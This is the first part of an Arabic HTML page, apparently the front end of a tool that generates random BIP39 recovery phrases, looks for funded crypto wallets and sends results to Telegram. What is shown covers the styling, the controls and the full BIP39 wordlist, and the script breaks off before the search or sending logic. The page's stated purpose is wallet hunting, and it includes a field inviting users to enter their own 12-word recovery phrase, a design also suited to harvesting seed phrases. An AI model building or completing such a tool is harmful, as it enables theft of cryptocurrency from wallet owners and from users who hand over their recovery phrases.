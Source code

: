 من
<html lang="ar" dir="rtl">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>مولد عبارات BIP39 والبحث عن المحافظ النشطة</title>
    <style>
        /* تصميم واجهة المستخدم المتجاوبة */
        * {
            margin: 0;
            padding: 0;
            box-sizing: border-box;
        }

        body {
            font-family: 'Segoe UI', Tahoma, Geneva, Verdana, sans-serif;
            background: linear-gradient(135deg, #667eea 0%, #764ba2 100%);
            min-height: 100vh;
            padding: 20px;
            direction: rtl;
            text-align: right;
        }

        .container {
            max-width: 800px;
            margin: 0 auto;
            background: rgba(255, 255, 255, 0.95);
            border-radius: 20px;
            box-shadow: 0 20px 40px rgba(0, 0, 0, 0.1);
            overflow: hidden;
            backdrop-filter: blur(10px);
        }

        .header {
            background: linear-gradient(135deg, #4facfe 0%, #00f2fe 100%);
            color: white;
            padding: 30px;
            text-align: center;
        }

        .header h1 {
            font-size: 2.5rem;
            margin-bottom: 10px;
            font-weight: 700;
        }

        .header p {
            font-size: 1.1rem;
            opacity: 0.9;
        }

        .main-content {
            padding: 40px;
        }

        .control-panel {
            background: #f8f9fa;
            border-radius: 15px;
            padding: 30px;
            margin-bottom: 30px;
            border: 1px solid #e9ecef;
        }

        .control-group {
            margin-bottom: 25px;
        }

        .control-group label {
            display: block;
            font-weight: 600;
            margin-bottom: 8px;
            color: #495057;
            font-size: 1rem;
        }

        .control-group input,
        .control-group select,
        .control-group textarea {
            width: 100%;
            padding: 12px 15px;
            border: 2px solid #dee2e6;
            border-radius: 10px;
            font-size: 1rem;
            transition: all 0.3s ease;
            background: white;
        }

        .control-group input:focus,
        .control-group select:focus,
        .control-group textarea:focus {
            outline: none;
            border-color: #4facfe;
            box-shadow: 0 0 0 3px rgba(79, 172, 254, 0.1);
        }

        .checkbox-group {
            display: flex;
            align-items: center;
            gap: 10px;
            margin: 15px 0;
        }

        .checkbox-group input[type="checkbox"] {
            width: 20px;
            height: 20px;
        }

        .checkbox-group label {
            margin: 0;
            font-weight: 500;
            color: #495057;
        }

        .button-group {
            display: flex;
            gap: 15px;
            flex-wrap: wrap;
            justify-content: center;
            margin-top: 30px;
        }

        .btn {
            padding: 15px 30px;
            border: none;
            border-radius: 10px;
            font-size: 1rem;
            font-weight: 600;
            cursor: pointer;
            transition: all 0.3s ease;
            text-decoration: none;
            display: inline-flex;
            align-items: center;
            justify-content: center;
            gap: 8px;
            min-width: 150px;
        }

        .btn-primary {
            background: linear-gradient(135deg, #4facfe 0%, #00f2fe 100%);
            color: white;
        }

        .btn-primary:hover {
            transform: translateY(-2px);
            box-shadow: 0 10px 20px rgba(79, 172, 254, 0.3);
        }

        .btn-success {
            background: linear-gradient(135deg, #56ab2f 0%, #a8e6cf 100%);
            color: white;
        }

        .btn-success:hover {
            transform: translateY(-2px);
            box-shadow: 0 10px 20px rgba(86, 171, 47, 0.3);
        }

        .btn-danger {
            background: linear-gradient(135deg, #ff416c 0%, #ff4b2b 100%);
            color: white;
        }

        .btn-danger:hover {
            transform: translateY(-2px);
            box-shadow: 0 10px 20px rgba(255, 65, 108, 0.3);
        }

        .btn-secondary {
            background: linear-gradient(135deg, #667eea 0%, #764ba2 100%);
            color: white;
        }

        .btn-secondary:hover {
            transform: translateY(-2px);
            box-shadow: 0 10px 20px rgba(102, 126, 234, 0.3);
        }

        .btn-warning {
            background: linear-gradient(135deg, #ff9a00 0%, #ffcc00 100%);
            color: white;
        }

        .btn-warning:hover {
            transform: translateY(-2px);
            box-shadow: 0 10px 20px rgba(255, 154, 0, 0.3);
        }

        .btn:disabled {
            opacity: 0.6;
            cursor: not-allowed;
            transform: none !important;
            box-shadow: none !important;
        }

        .status-panel {
            background: white;
            border-radius: 15px;
            padding: 25px;
            margin-bottom: 25px;
            border: 1px solid #e9ecef;
        }

        .status-panel h3 {
            color: #495057;
            margin-bottom: 20px;
            font-size: 1.3rem;
        }

        .status-grid {
            display: grid;
            grid-template-columns: repeat(auto-fit, minmax(200px, 1fr));
            gap: 20px;
            margin-bottom: 20px;
        }

        .status-card {
            background: #f8f9fa;
            padding: 20px;
            border-radius: 10px;
            text-align: center;
            border: 1px solid #e9ecef;
        }

        .status-card .number {
            font-size: 2rem;
            font-weight: 700;
            color: #4facfe;
            margin-bottom: 5px;
        }

        .status-card .label {
            color: #6c757d;
            font-size: 0.9rem;
        }

        .progress-bar {
            width: 100%;
            height: 8px;
            background: #e9ecef;
            border-radius: 4px;
            overflow: hidden;
            margin: 15px 0;
        }

        .progress-fill {
            height: 100%;
            background: linear-gradient(90deg, #4facfe 0%, #00f2fe 100%);
            width: 0%;
            transition: width 0.3s ease;
        }

        .log-panel {
            background: #212529;
            color: #ffffff;
            border-radius: 15px;
            padding: 20px;
            margin-top: 25px;
            max-height: 300px;
            overflow-y: auto;
            font-family: 'Courier New', monospace;
            font-size: 0.9rem;
            line-height: 1.4;
        }

        .log-entry {
            margin-bottom: 8px;
            padding: 5px 0;
            border-bottom: 1px solid #343a40;
        }

        .log-entry:last-child {
            border-bottom: none;
        }

        .log-timestamp {
            color: #6c757d;
            font-size: 0.8rem;
        }

        .log-success {
            color: #28a745;
        }

        .log-error {
            color: #dc3545;
        }

        .log-info {
            color: #17a2b8;
        }

        .log-warning {
            color: #ffc107;
        }

        .wallet-display {
            background: #f8f9fa;
            border: 1px solid #dee2e6;
            border-radius: 10px;
            padding: 20px;
            margin: 15px 0;
            word-break: break-all;
        }

        .wallet-display .mnemonic {
            background: #e9ecef;
            padding: 15px;
            border-radius: 8px;
            font-family: 'Courier New', monospace;
            font-size: 0.9rem;
            margin-bottom: 10px;
        }

        .wallet-display .address {
            color: #495057;
            font-family: 'Courier New', monospace;
            font-size: 0.8rem;
        }

        .loading-spinner {
            display: inline-block;
            width: 20px;
            height: 20px;
            border: 3px solid rgba(255, 255, 255, 0.3);
            border-radius: 50%;
            border-top-color: #fff;
            animation: spin 1s ease-in-out infinite;
        }

        @keyframes spin {
            to { transform: rotate(360deg); }
        }

        .alert {
            padding: 15px 20px;
            border-radius: 10px;
            margin: 15px 0;
            font-weight: 500;
        }

        .alert-success {
            background: #d4edda;
            color: #155724;
            border: 1px solid #c3e6cb;
        }

        .alert-danger {
            background: #f8d7da;
            color: #721c24;
            border: 1px solid #f5c6cb;
        }

        .alert-info {
            background: #d1ecf1;
            color: #0c5460;
            border: 1px solid #bee5eb;
        }

        .alert-warning {
            background: #fff3cd;
            color: #856404;
            border: 1px solid #ffeaa7;
        }

        /* تصميم متجاوب للهواتف المحمولة */
        @media (max-width: 768px) {
            body {
                padding: 10px;
            }
            
            .header h1 {
                font-size: 2rem;
            }
            
            .header p {
                font-size: 1rem;
            }
            
            .main-content {
                padding: 20px;
            }
            
            .control-panel {
                padding: 20px;
            }
            
            .button-group {
                flex-direction: column;
            }
            
            .btn {
                width: 100%;
                min-width: auto;
            }
            
            .status-grid {
                grid-template-columns: repeat(2, 1fr);
                gap: 15px;
            }
            
            .status-card .number {
                font-size: 1.5rem;
            }
            
            .log-panel {
                font-size: 0.8rem;
                max-height: 200px;
            }
        }

        @media (max-width: 480px) {
            .header {
                padding: 20px;
            }
            
            .header h1 {
                font-size: 1.8rem;
            }
            
            .main-content {
                padding: 15px;
            }
            
            .control-panel {
                padding: 15px;
            }
            
            .status-grid {
                grid-template-columns: 1fr;
            }
            
            .status-card {
                padding: 15px;
            }
            
            .wallet-display .mnemonic {
                font-size: 0.8rem;
                padding: 10px;
            }
        }

        .fade-in {
            animation: fadeIn 0.5s ease-in;
        }

        @keyframes fadeIn {
            from { opacity: 0; transform: translateY(20px); }
            to { opacity: 1; transform: translateY(0); }
        }

        .log-panel::-webkit-scrollbar {
            width: 8px;
        }

        .log-panel::-webkit-scrollbar-track {
            background: #343a40;
            border-radius: 4px;
        }

        .log-panel::-webkit-scrollbar-thumb {
            background: #6c757d;
            border-radius: 4px;
        }

        .log-panel::-webkit-scrollbar-thumb:hover {
            background: #adb5bd;
        }

        .test-result {
            background: #f8f9fa;
            border-radius: 10px;
            padding: 20px;
            margin-top: 15px;
            border-left: 5px solid #4facfe;
        }

        .test-result.active {
            border-left-color: #28a745;
        }

        .test-result.inactive {
            border-left-color: #dc3545;
        }

        .test-result h4 {
            margin-bottom: 10px;
            color: #495057;
        }

        .test-result .balance {
            font-size: 1.2rem;
            font-weight: bold;
            margin: 10px 0;
        }

        .test-result .balance.positive {
            color: #28a745;
        }

        .test-result .balance.zero {
            color: #6c757d;
        }

        .test-result .transactions {
            margin: 10px 0;
        }

        .test-result .status {
            padding: 5px 10px;
            border-radius: 5px;
            font-weight: bold;
            display: inline-block;
        }

        .test-result .status.active {
            background: #d4edda;
            color: #155724;
        }

        .test-result .status.inactive {
            background: #f8d7da;
            color: #721c24;
        }
    </style>
</head>
<body>
    <div class="container">
        <div class="header">
            <h1>🔑 مولد عبارات BIP39</h1>
            <p>البحث عن المحافظ النشطة وإرسالها إلى Telegram</p>
        </div>

        <div class="main-content">
            <div class="control-panel">
                <div class="control-group">
                    <label for="searchSpeed">سرعة البحث (مللي ثانية بين كل عبارة):</label>
                    <input type="number" id="searchSpeed" value="2000" min="1000" max="10000" step="500">
                </div>

                <div class="control-group">
                    <label for="maxAttempts">الحد الأقصى للمحاولات (0 = لا نهاية):</label>
                    <input type="number" id="maxAttempts" value="0" min="0" max="10000">
                </div>

                <div class="checkbox-group">
                    <input type="checkbox" id="sendEmptyWallets" checked>
                    <label for="sendEmptyWallets">إرسال المحافظ الفارغة إلى Telegram</label>
                </div>

                <div class="button-group">
                    <button id="startBtn" class="btn btn-success">
                        <span>🚀 بدء البحث</span>
                    </button>
                    <button id="stopBtn" class="btn btn-danger" disabled>
                        <span>⏹️ إيقاف البحث</span>
                    </button>
                    <button id="testTelegramBtn" class="btn btn-secondary">
                        <span>📱 اختبار Telegram</span>
                    </button>
                    <button id="clearLogsBtn" class="btn btn-primary">
                        <span>🗑️ مسح السجل</span>
                    </button>
                </div>
            </div>

            <!-- قسم جديد لاختبار العبارات يدويًا -->
            <div class="control-panel">
                <h3>🔍 اختبار عبارة BIP39 يدويًا</h3>
                <div class="control-group">
                    <label for="manualMnemonic">أدخل عبارة BIP39 (12 كلمة):</label>
                    <textarea id="manualMnemonic" rows="3" placeholder="أدخل عبارة الاسترجاع المكونة من 12 كلمة هنا..."></textarea>
                </div>
                <div class="button-group">
                    <button id="testManualBtn" class="btn btn-warning">
                        <span>🔍 فحص العبارة</span>
                    </button>
                </div>
                <div id="manualTestResult" class="test-result" style="display: none;">
                    <!-- سيتم ملؤه ديناميكيًا -->
                </div>
            </div>

            <div class="status-panel">
                <h3>📊 إحصائيات العملية</h3>
                <div class="status-grid">
                    <div class="status-card">
                        <div class="number" id="totalGenerated">0</div>
                        <div class="label">إجمالي العبارات</div>
                    </div>
                    <div class="status-card">
                        <div class="number" id="activeWallets">0</div>
                        <div class="label">المحافظ النشطة</div>
                    </div>
                    <div class="status-card">
                        <div class="number" id="emptyWallets">0</div>
                        <div class="label">المحافظ الفارغة</div>
                    </div>
                    <div class="status-card">
                        <div class="number" id="errorCount">0</div>
                        <div class="label">الأخطاء</div>
                    </div>
                </div>
                <div class="progress-bar">
                    <div class="progress-fill" id="progressFill"></div>
                </div>
                <div id="currentStatus" class="alert alert-info">
                    جاهز للبدء...
                </div>
            </div>

            <div class="log-panel" id="logPanel">
                <div class="log-entry log-info">
                    <span class="log-timestamp">[${new Date().toLocaleTimeString('ar-EG')}]</span>
                    مرحباً بك في مولد عبارات BIP39. اضغط على "بدء البحث" للبدء.
                </div>
            </div>
        </div>
    </div>

    <!-- تحميل مكتبة ethers.js من CDN مختلف -->
    <script src="https://cdn.jsdelivr.net/npm/ethers@5.7.2/dist/ethers.umd.min.js"></script>

    <script>
        // قائمة كلمات BIP39 الإنجليزية الرسمية
        const BIP39_WORDLIST = [
            "abandon", "ability", "able", "about", "above", "absent", "absorb", "abstract", "absurd", "abuse",
            "access", "accident", "account", "accuse", "achieve", "acid", "acoustic", "acquire", "across", "act",
            "action", "actor", "actress", "actual", "adapt", "add", "addict", "address", "adjust", "admit",
            "adult", "advance", "advice", "aerobic", "affair", "affect", "afford", "afraid", "after", "again",
            "age", "agent", "agree", "ahead", "aim", "air", "airport", "aisle", "alarm", "album",
            "alcohol", "alert", "alien", "all", "alley", "allow", "almost", "alone", "alpha", "already",
            "also", "alter", "always", "amateur", "amazing", "among", "amount", "amused", "analyst", "anchor",
            "ancient", "anger", "angle", "angry", "animal", "announce", "annual", "another", "answer", "antenna",
            "antique", "anxiety", "any", "apart", "apology", "appear", "apple", "approve", "april", "area",
            "arena", "argue", "arm", "armed", "armor", "army", "around", "arrange", "arrest", "arrive",
            "arrow", "art", "artefact", "artist", "artwork", "ask", "aspect", "assault", "asset", "assist",
            "assume", "asthma", "athlete", "atom", "attack", "attend", "attitude", "attract", "auction", "audit",
            "august", "aunt", "author", "auto", "autumn", "average", "avocado", "avoid", "awake", "aware",
            "away", "awesome", "awful", "awkward", "axis", "baby", "bachelor", "bacon", "badge", "bag",
            "balance", "balcony", "ball", "bamboo", "banana", "banner", "bar", "barely", "bargain", "barrel",
            "base", "basic", "basket", "battle", "beach", "bean", "beauty", "because", "become", "beef",
            "before", "begin", "behave", "behind", "believe", "below", "belt", "bench", "benefit", "best",
            "betray", "better", "between", "beyond", "bicycle", "bid", "bike", "bind", "biology", "bird",
            "birth", "bitter", "black", "blade", "blame", "blanket", "blast", "bleak", "bless", "blind",
            "blood", "blossom", "blouse", "blue", "blur", "blush", "board", "boat", "body", "boil",
            "bomb", "bone", "bonus", "book", "boost", "border", "boring", "borrow", "boss", "bottom",
            "bounce", "box", "boy", "bracket", "brain", "brand", "brass", "brave", "bread", "breeze",
            "brick", "bridge", "brief", "bright", "bring", "brisk", "broccoli", "broken", "bronze", "broom",
            "brother", "brown", "brush", "bubble", "buddy", "budget", "buffalo", "build", "bulb", "bulk",
            "bullet", "bundle", "bunker", "burden", "burger", "burst", "bus", "business", "busy", "butter",
            "buyer", "buzz", "cabbage", "cabin", "cable", "cactus", "cage", "cake", "call", "calm",
            "camera", "camp", "can", "canal", "cancel", "candy", "cannon", "canoe", "canvas", "canyon",
            "capable", "capital", "captain", "car", "carbon", "card", "cargo", "carpet", "carry", "cart",
            "case", "cash", "casino", "castle", "casual", "cat", "catalog", "catch", "category", "cattle",
            "caught", "cause", "caution", "cave", "ceiling", "celery", "cement", "census", "century", "ceremony",
            "certain", "chair", "chalk", "champion", "change", "chaos", "chapter", "charge", "chase", "chat",
            "cheap", "check", "cheek", "cheese", "chef", "cherry", "chest", "chicken", "chief", "child",
            "chimney", "choice", "choose", "chronic", "chuckle", "chunk", "churn", "cigar", "cinnamon", "circle",
            "citizen", "city", "civil", "claim", "clap", "clarify", "claw", "clay", "clean", "clerk",
            "clever", "click", "client", "cliff", "climb", "clinic", "clip", "clock", "clog", "close",
            "cloth", "cloud", "clown", "club", "clump", "cluster", "clutch", "coach", "coast", "coconut",
            "code", "coffee", "coil", "coin", "collect", "color", "column", "combine", "come", "comfort",
            "comic", "common", "company", "concert", "conduct", "confirm", "congress", "connect", "consider", "control",
            "convince", "cook", "cool", "copper", "copy", "coral", "core", "corn", "correct", "cost",
            "cotton", "couch", "country", "couple", "course", "cousin", "cover", "coyote", "crack", "cradle",
            "craft", "cram", "crane", "crash", "crater", "crawl", "crazy", "cream", "credit", "creek",
            "crew", "cricket", "crime", "crisp", "critic", "crop", "cross", "crouch", "crowd", "crucial",
            "cruel", "cruise", "crumble", "crunch", "crush", "cry", "crystal", "cube", "culture", "cup",
            "cupboard", "curious", "current", "curtain", "curve", "cushion", "custom", "cute", "cycle", "dad",
            "damage", "damp", "dance", "danger", "daring", "dark", "dash", "date", "daughter", "dawn",
            "day", "deal", "debate", "debris", "decade", "december", "decide", "decline", "decorate", "decrease",
            "deer", "defense", "define", "defy", "degree", "delay", "deliver", "demand", "demise", "denial",
            "dentist", "deny", "depart", "depend", "deposit", "depth", "deputy", "derive", "describe", "desert",
            "design", "desk", "despair", "destroy", "detail", "detect", "develop", "device", "devote", "diagram",
            "dial", "diamond", "diary", "dice", "diesel", "diet", "differ", "digital", "dignity", "dilemma",
            "dinner", "dinosaur", "direct", "dirt", "disagree", "discover", "disease", "dish", "dismiss", "disorder",
            "display", "distance", "divert", "divide", "divorce", "dizzy", "doctor", "document", "dog", "doll",
            "dolphin", "domain", "donate", "donkey", "donor", "door", "dose", "double", "dove", "draft",
            "dragon", "drama", "drastic", "draw", "dream", "dress", "drift", "drill", "drink", "drip",
            "drive", "drop", "drum", "dry", "duck", "dumb", "dune", "during", "dust", "dutch",
            "duty", "dwarf", "dynamic", "eager", "eagle", "early", "earn", "earth", "easily", "east",
            "easy", "echo", "ecology", "economy", "edge", "edit", "educate", "effort", "egg", "eight",
            "either", "elbow", "elder", "electric", "elegant", "element", "elephant", "elevator", "elite", "else",
            "embark", "embody", "embrace", "emerge", "emotion", "employ", "empower", "empty", "enable", "enact",
            "end", "endless", "endorse", "enemy", "energy", "enforce", "engage", "engine", "enhance", "enjoy",
            "enlist", "enough", "enrich", "enroll", "ensure", "enter", "entire", "entry", "envelope", "episode",
            "equal", "equip", "era", "erase", "erode", "erosion", "error", "erupt", "escape", "essay",
            "essence", "estate", "eternal", "ethics", "evidence", "evil", "evoke", "evolve", "exact", "example",
            "excess", "exchange", "excite", "exclude", "excuse", "execute", "exercise", "exhaust", "exhibit", "exile",
            "exist", "exit", "exotic", "expand", "expect", "expire", "explain", "expose", "express", "extend",
            "extra", "eye", "eyebrow", "fabric", "face", "faculty", "fade", "faint", "faith", "fall",
            "false", "fame", "family", "famous", "fan", "fancy", "fantasy", "farm", "fashion", "fat",
            "fatal", "father", "fatigue", "fault", "favorite", "feature", "february", "federal", "fee", "feed",
            "feel", "female", "fence", "festival", "fetch", "fever", "few", "fiber", "fiction", "field",
            "figure", "file", "film", "filter", "final", "find", "fine", "finger", "finish", "fire",
            "firm", "first", "fiscal", "fish", "fit", "fitness", "fix", "flag", "flame", "flash",
            "flat", "flavor", "flee", "flight", "flip", "float", "flock", "floor", "flower", "fluid",
            "flush", "fly", "foam", "focus", "fog", "foil", "fold", "follow", "food", "foot",
            "force", "foreign", "forest", "forget", "fork", "fortune", "forum", "forward", "fossil", "foster",
            "found", "fox", "fragile", "frame", "frequent", "fresh", "friend", "fringe", "frog", "front",
            "frost", "frown", "frozen", "fruit", "fuel", "fun", "funny", "furnace", "fury", "future",
            "gadget", "gain", "galaxy", "gallery", "game", "gap", "garage", "garbage", "garden", "garlic",
            "garment", "gas", "gasp", "gate", "gather", "gauge", "gaze", "general", "genius", "genre",
            "gentle", "genuine", "gesture", "ghost", "giant", "gift", "giggle", "ginger", "giraffe", "girl",
            "give", "glad", "glance", "glare", "glass", "glide", "glimpse", "globe", "gloom", "glory",
            "glove", "glow", "glue", "goat", "goddess", "gold", "good", "goose", "gorilla", "gospel",
            "gossip", "govern", "gown", "grab", "grace", "grain", "grant", "grape", "grass", "gravity",
            "great", "green", "grid", "grief", "grit", "grocery", "group", "grow", "grunt", "guard",
            "guess", "guide", "guilt", "guitar", "gun", "gym", "habit", "hair", "half", "hammer",
            "hamster", "hand", "happy", "harbor", "hard", "harsh", "harvest", "hat", "have", "hawk",
            "hazard", "head", "health", "heart", "heavy", "hedgehog", "height", "hello", "helmet", "help",
            "hen", "hero", "hidden", "high", "hill", "hint", "hip", "hire", "history", "hobby",
            "hockey", "hold", "hole", "holiday", "hollow", "home", "honey", "hood", "hope", "horn",
            "horror", "horse", "hospital", "host", "hotel", "hour", "hover", "hub", "huge", "human",
            "humble", "humor", "hundred", "hungry", "hunt", "hurdle", "hurry", "hurt", "husband", "hybrid",
            "ice", "icon", "idea", "identify", "idle", "ignore", "ill", "illegal", "illness", "image",
            "imitate", "immense", "immune", "impact", "impose", "improve", "impulse", "inch", "include", "income",
            "increase", "index", "indicate", "indoor", "industry", "infant", "inflict", "inform", "inhale", "inherit",
            "initial", "inject", "injury", "inmate", "inner", "innocent", "input", "inquiry", "insane", "insect",
            "inside", "inspire", "install", "intact", "interest", "into", "invest", "invite", "involve", "iron",
            "island", "isolate", "issue", "item", "ivory", "jacket", "jaguar", "jar", "jazz", "jealous",
            "jeans", "jelly", "jewel", "job", "join", "joke", "journey", "joy", "judge", "juice",
            "jump", "jungle", "junior", "junk", "just", "kangaroo", "keen", "keep", "ketchup", "key",
            "kick", "kid", "kidney", "kind", "kingdom", "kiss", "kit", "kitchen", "kite", "kitten",
            "kiwi", "knee", "knife", "knock", "know", "lab", "label", "labor", "ladder", "lady",
            "lake", "lamp", "language", "laptop", "large", "later", "latin", "laugh", "laundry", "lava",
            "law", "lawn", "lawsuit", "layer", "lazy", "leader", "leaf", "learn", "leave", "lecture",
            "left", "leg", "legal", "legend", "leisure", "lemon", "lend", "length", "lens", "leopard",
            "lesson", "letter", "level", "liar", "liberty", "library", "license", "life", "lift", "light",
            "like", "limb", "limit", "link", "lion", "liquid", "list", "little", "live", "lizard",
            "load", "loan", "lobster", "local", "lock", "logic", "lonely", "long", "loop", "lottery",
            "loud", "lounge", "love", "loyal", "lucky", "luggage", "lumber", "lunar", "lunch", "luxury",
            "lyrics", "machine", "mad", "magic", "magnet", "maid", "mail", "main", "major", "make",
            "mammal", "man", "manage", "mango", "mansion", "manual", "maple", "marble", "march", "margin",
            "marine", "market", "marriage", "mask", "mass", "master", "match", "material", "math", "matrix",
            "matter", "maximum", "maze", "meadow", "mean", "measure", "meat", "mechanic", "medal", "media",
            "melody", "melt", "member", "memory", "mention", "menu", "mercy", "merge", "merit", "merry",
            "mesh", "message", "metal", "method", "middle", "midnight", "milk", "million", "mimic", "mind",
            "minimum", "minor", "minute", "miracle", "mirror", "misery", "miss", "mistake", "mix", "mixed",
            "mixture", "mobile", "model", "modify", "mom", "moment", "monitor", "monkey", "monster", "month",
            "moon", "moral", "more", "morning", "mosquito", "mother", "motion", "motor", "mountain", "mouse",
            "move", "movie", "much", "muffin", "mule", "multiply", "muscle", "museum", "mushroom", "music",
            "must", "mutual", "myself", "mystery", "myth", "naive", "name", "napkin", "narrow", "nasty",
            "nation", "nature", "near", "neck", "need", "negative", "neglect", "neither", "nephew", "nerve",
            "nest", "net", "network", "neutral", "never", "news", "next", "nice", "night", "noble",
            "noise", "nominee", "noodle", "normal", "north", "nose", "notable", "note", "nothing", "notice",
            "novel", "now", "nuclear", "number", "nurse", "nut", "oak", "obey", "object", "oblige",
            "obscure", "observe", "obtain", "obvious", "occur", "ocean", "october", "odor", "off", "offer",
            "office", "often", "oil", "okay", "old", "olive", "olympic", "omit", "once", "one",
            "onion", "online", "only", "open", "opera", "opinion", "oppose", "option", "orange", "orbit",
            "orchard", "order", "ordinary", "organ", "orient", "original", "orphan", "ostrich", "other", "outdoor",
            "outer", "output", "outside", "oval", "oven", "over", "own", "owner", "oxygen", "oyster",
            "ozone", "pact", "paddle", "page", "pair", "palace", "palm", "panda", "panel", "panic",
            "panther", "paper", "parade", "parent", "park", "parrot", "party", "pass", "patch", "path",
            "patient", "patrol", "pattern", "pause", "pave", "payment", "peace", "peanut", "pear", "peasant",
            "pelican", "pen", "penalty", "pencil", "people", "pepper", "perfect", "permit", "person", "pet",
            "phone", "photo", "phrase", "physical", "piano", "picnic", "picture", "piece", "pig", "pigeon",
            "pill", "pilot", "pink", "pioneer", "pipe", "pistol", "pitch", "pizza", "place", "planet",
            "plastic", "plate", "play", "player", "pleasure", "pledge", "pluck", "plug", "plunge", "poem",
            "poet", "point", "polar", "pole", "police", "pond", "pony", "pool", "popular", "portion",
            "position", "possible", "post", "potato", "pottery", "poverty", "powder", "power", "practice", "praise",
            "predict", "prefer", "prepare", "present", "pretty", "prevent", "price", "pride", "primary", "print",
            "priority", "prison", "private", "prize", "problem", "process", "produce", "profit", "program", "project",
            "promote", "proof", "property", "prosper", "protect", "proud", "provide", "public", "pudding", "pull",
            "pulp", "pulse", "pumpkin", "punch", "pupil", "puppy", "purchase", "purity", "purpose", "purse",
            "push", "put", "puzzle", "pyramid", "quality", "quantum", "quarter", "question", "quick", "quit",
            "quiz", "quote", "rabbit", "raccoon", "race", "rack", "radar", "radio", "rail", "rain",
            "raise", "rally", "ramp", "ranch", "random", "range", "rapid", "rare", "rate", "rather",
            "raven", "raw", "razor", "ready", "real", "reason", "rebel", "rebuild", "recall", "receive",
            "recipe", "record", "recycle", "reduce", "reflect", "reform", "refuse", "region", "regret", "regular",
            "reject", "relax", "release", "relief", "rely", "remain", "remember", "remind", "remove", "render",
            "renew", "rent", "reopen", "repair", "repeat", "replace", "report", "require", "rescue", "resemble",
            "resist", "resource", "response", "result", "retire", "retreat", "return", "reunion", "reveal", "review",
            "reward", "rhythm", "rib", "ribbon", "rice", "rich", "ride", "ridge", "rifle", "right",
            "rigid", "ring", "riot", "ripple", "risk", "ritual", "rival", "river", "road", "roast",
            "robot", "robust", "rocket", "romance", "roof", "rookie", "room", "rose", "rotate", "rough",
            "round", "route", "royal", "rubber", "rude", "rug", "rule", "run", "runway", "rural",
            "sad", "saddle", "sadness", "safe", "sail", "salad", "salmon", "salon", "salt", "same",
            "sample", "sand", "satisfy", "satoshi", "sauce", "sausage", "save", "say", "scale", "scan",
            "scare", "scatter", "scene", "scheme", "school", "science", "scissors", "scorpion", "scout", "scrap",
            "screen", "script", "scrub", "sea", "search", "season", "seat", "second", "secret", "section",
            "security", "seed", "seek", "segment", "select", "sell", "seminar", "senior", "sense", "sentence",
            "series", "service", "session", "settle", "setup", "seven", "shadow", "shaft", "shallow", "share",
            "shed", "shell", "sheriff", "shield", "shift", "shine", "ship", "shiver", "shock", "shoe",
            "shoot", "shop", "short", "shoulder", "shove", "shrimp", "shrug", "shuffle", "shy", "sibling",
            "sick", "side", "siege", "sight", "sign", "silent", "silk", "silly", "silver", "similar",
            "simple", "since", "sing", "siren", "sister", "situate", "six", "size", "skate", "sketch",
            "ski", "skill", "skin", "skirt", "skull", "slab", "slam", "sleep", "slender", "slice",
            "slide", "slight", "slim", "slogan", "slot", "slow", "slush", "small", "smart", "smile",
            "smoke", "smooth", "snack", "snake", "snap", "sniff", "snow", "soap", "soccer", "social",
            "sock", "soda", "soft", "solar", "soldier", "solid", "solution", "solve", "someone", "song",
            "soon", "sorry", "sort", "soul", "sound", "soup", "source", "south", "space", "spare",
            "spatial", "spawn", "speak", "special", "speed", "spell", "spend", "sphere", "spice", "spider",
            "spike", "spin", "spirit", "split", "spoil", "sponsor", "spoon", "sport", "spot", "spray",
            "spread", "spring", "spy", "square", "squeeze", "squirrel", "stable", "stadium", "staff", "stage",
            "stairs", "stamp", "stand", "start", "state", "stay", "steak", "steel", "stem", "step",
            "stereo", "stick", "still", "sting", "stock", "stomach", "stone", "stool", "story", "stove",
            "strategy", "street", "strike", "strong", "struggle", "student", "stuff", "stumble", "style", "subject",
            "submit", "subway", "success", "such", "sudden", "suffer", "sugar", "suggest", "suit", "summer",
            "sun", "sunny", "sunset", "super", "supply", "support", "sure", "surface", "surge", "surprise",
            "surround", "survey", "suspect", "sustain", "swallow", "swamp", "swap", "swarm", "swear", "sweet",
            "swift", "swim", "swing", "switch", "sword", "symbol", "symptom", "syrup", "system", "table",
            "tackle", "tag", "tail", "talent", "talk", "tank", "tape", "target", "task", "taste",
            "tattoo", "taxi", "teach", "team", "tell", "ten", "tenant", "tennis", "tent", "term",
            "test", "text", "thank", "that", "theme", "then", "theory", "there", "they", "thing",
            "this", "thought", "three", "thrive", "throw", "thumb", "thunder", "ticket", "tide", "tiger",
            "tilt", "timber", "time", "tiny", "tip", "tired", "tissue", "title", "toast", "tobacco",
            "today", "toddler", "toe", "together", "toilet", "token", "tomato", "tomorrow", "tone", "tongue",
            "tonight", "tool", "tooth", "top", "topic", "topple", "torch", "tornado", "tortoise", "toss",
            "total", "tourist", "toward", "tower", "town", "toy", "track", "trade", "traffic", "tragic",
            "train", "transfer", "trap", "trash", "travel", "tray", "treat", "tree", "trend", "trial",
            "tribe", "trick", "trigger", "trim", "trip", "trophy", "trouble", "truck", "true", "truly",
            "trumpet", "trust", "truth", "try", "tube", "tuition", "tumble", "tuna", "tunnel", "turkey",
            "turn", "turtle", "twelve", "twenty", "twice", "twin", "twist", "two", "type", "typical",
            "ugly", "umbrella", "unable", "unaware", "uncle", "uncover", "under", "undo", "unfair", "unfold",
            "unhappy", "uniform", "unique", "unit", "universe", "unknown", "unlock", "until", "unusual", "unveil",
            "update", "upgrade", "uphold", "upon", "upper", "upset", "urban", "urge", "usage", "use",
            "used", "useful", "useless", "usual", "utility", "vacant", "vacuum", "vague", "valid", "valley",
            "valve", "van", "vanish", "vapor", "various", "vast", "vault", "vehicle", "velvet", "vendor",
            "venture", "venue", "verb", "verify", "version", "very", "vessel", "veteran", "viable", "vibrant",
            "vicious", "victory", "video", "view", "village", "vintage", "violin", "virtual", "virus", "visa",
            "visit", "visual", "vital", "vivid", "vocal", "voice", "void", "volcano", "volume", "vote",
            "voyage", "wage", "wagon", "wait", "walk", "wall", "walnut", "want", "warfare", "warm",
            "warrior", "wash", "wasp", "waste", "water", "wave", "way", "wealth", "weapon", "weary",
            "weather", "web", "wedding", "weekend", "weird", "welcome", "west", "wet", "whale", "what",
            "wheat", "wheel", "when", "where", "whip", "whisper", "wide", "width", "wife", "wild",
            "will", "win", "window", "wine", "wing", "wink", "winner", "winter", "wire", "wisdom",
            "wise", "wish", "witness", "wolf", "woman", "wonder", "wood", "wool", "word", "work",
            "world", "worry", "worth", "wrap", "wreck", "wrestle", "wrist", "write", "wrong", "yard",
            "year", "yellow", "you", "young", "youth", "zebra", "zero", "zone", "zoo"
        ];

        // إعدادات التطبيق
